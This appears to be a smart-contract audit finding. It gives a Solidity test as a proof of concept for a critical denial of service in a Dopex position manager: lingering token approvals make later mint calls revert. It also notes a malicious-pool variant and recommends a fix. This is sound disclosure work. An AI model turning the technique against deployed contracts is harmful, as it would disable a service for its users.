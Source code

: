 Proof of concept:

```solidity
    // Drop into DopexPositionManager.t.sol
    function testMintPositionAtk() public {
        uint256 amount0 = 5e18;
        uint256 amount1 = 5e18;

        // Range that contains the current tick
        int24 tickLower = -76040;
        int24 tickUpper = -75990;
        (uint160 sqrtPriceX96, int24 tick,,,,,) = pool.slot0();

        console2.log("tickLower sqrtRatio: ", TickMath.getSqrtRatioAtTick(tickLower));
        console2.log("tickUpper sqrtRatio: ", TickMath.getSqrtRatioAtTick(tickUpper));
        console2.log("current sqrtRatio:", sqrtPriceX96);
        console2.log("current tick: %s", tick); // -76010

        console.log("token0 allowance before: ", token0.allowance(address(positionManager), address(uniV3Handler)));
        console.log("token1 Allowance before: ", token1.allowance(address(positionManager), address(uniV3Handler)));

        // Mint the position
        positionManagerHandler.mintPosition(token0, token1, amount0, amount1, tickLower, tickUpper, pool, bob);

        console.log("token0 allowance after: ", token0.allowance(address(positionManager), address(uniV3Handler)));
        console.log("token1 Allowance after: ", token1.allowance(address(positionManager), address(uniV3Handler)));

        vm.expectRevert("SafeERC20: approve from non-zero to non-zero allowance");
        positionManagerHandler.mintPosition(token0, token1, amount0, amount1, tickLower, tickUpper, pool, bob);
        vm.expectRevert("SafeERC20: approve from non-zero to non-zero allowance");
        positionManagerHandler.mintPosition(token0, token1, amount0, amount1, tickLower, tickUpper, pool, jason);
    }
```

Note that the proof of concept above is non-exhaustive. There are additional ways to cause lingering approvals, e.g. by returning two different prices from the user-controlled pool address in the two calls to `_getCurrentSqrtPriceX96()` in the `mintPosition()` flow.

#### Impact

Critical. Any user is able to render the system largely unusable.

#### Recommendation

Avoid using the deprecated `safeApprove()`, opting instead for `safeIncreaseAllowance()` and `safeDecreaseAllowance()`.
